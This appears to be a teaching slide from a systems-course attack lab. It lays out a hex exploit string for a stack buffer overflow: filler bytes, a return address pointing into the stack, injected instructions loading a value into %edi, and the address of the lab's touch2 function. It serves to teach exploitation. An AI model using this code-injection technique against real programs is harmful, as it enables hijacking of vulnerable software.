

Attack code
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30
98 bd 66 55 00 00 00 00
bf d5 c2 6f 2d 48 83 c4
10 c3 00 00 00 00 00 00
c2 59 55 55 55 55 00 00

Junk bytes to make buffer overflow
re-direct to our code

Our code
Address of touch2